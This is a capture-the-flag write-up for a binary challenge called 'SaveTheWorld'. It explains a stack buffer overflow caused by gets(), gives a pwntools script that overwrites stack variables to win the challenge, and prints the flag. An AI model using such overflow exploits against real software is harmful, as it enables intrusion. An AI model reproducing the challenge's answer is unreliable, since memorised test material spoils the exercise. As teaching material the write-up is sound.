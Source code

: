 # SaveTheWorld

### 📍 Description

We need your help to save the world. The selected fighter is too weak, do you have something to say about it?

### 📄 Rules
- You cannot patch this binary. 
- Do not modify auxil1 and auxil2

## 🔑 Solution

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 72 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./SaveTheWorld"
p = process()
p.sendline(b"A" * 72 + b"Jotaro!!" + b"Star Platinum!!!" + b"HORA" + b"9999")
p.recvuntil(b"Congratulation, you won!!!")
os.system("grep .*{.*}.* victory_recap.txt")
```

### 🚩 Flag

```plain
SPRITZ{Yare_Yare}
```
